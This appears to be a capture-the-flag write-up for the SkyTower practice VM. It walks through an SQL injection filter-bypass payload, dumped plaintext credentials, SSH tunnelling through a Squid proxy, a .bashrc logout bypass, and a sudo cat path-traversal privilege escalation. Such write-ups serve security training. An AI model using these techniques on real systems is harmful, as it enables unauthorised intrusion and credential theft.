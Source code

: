 # Skytower
### Credentials
```
john:hereisjohn

MySQL dump
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
```
## Nmap Scan
```
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.2.22 ((Debian))
3128/tcp open  http-proxy Squid http proxy 3.1.20
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)
```
## Web Enumeration
__Port 80__
Login form vulnerable to SQL injection with a filter bypass.
* Filtering was occuring where the characters ' OR = -- were removed so the payload ' || 1=1# was used instead and it passed the filter
## Foothold / Privilege Escalation
When I broke in through the login panel I saw a pair of ssh credentials, but there was no open SSH  port on the machine? But there is a squid proxy on the server running on port 3128.
Using this proxy and the “proxytunnel” tool I can proxy the machine’s own SSH server to my port 1234 and connect to it through their proxy;
```
proxytunnel -p 192.168.1.233:3128 -d 127.0.0.1:22 -a 1234
The -a flag means the connection will daemonize on port 1234 so it can keep itself alive
```
SSH connection logs out immediately after connecting, so there must be something inside the .bashrc file. I can bypass this with the /bin/bash parameter when executing the ssh command, which means I get dropped directly into a bash shell upon connecting. Using this I can delete the .bashrc file and login normally.
### Machine Enumeration
```
#! ARCHITECTURE !#
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs),
for GNU/Linux 2.6.26, BuildID[sha1]=0x5bb332752cc304fa7fbb838bdf7d7766ffc7a8a1, stripped

Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64 GNU/Linux
PRETTY_NAME="Debian GNU/Linux 7 (wheezy)"
NAME="Debian GNU/Linux"
VERSION_ID="7"
VERSION="7 (wheezy)"
ID=debian
ANSI_COLOR="1;31"
HOME_URL="http://www.debian.org/"
SUPPORT_URL="http://www.debian.org/support/"
BUG_REPORT_URL="http://bugs.debian.org/"
```
Inside the login.php were hardcoded MySQL credentials which I used to dump the contents and find all users credentials stored in plain text.
### Privilege Escalation
When I made a lateral move to the user “sara” I ran sudo -l, and it returned that the user sara can run "cat" on the /accounts directory so I used a simple trick __cat /accounts../../root/flag.txt__ to get the root flag which contained the root password.
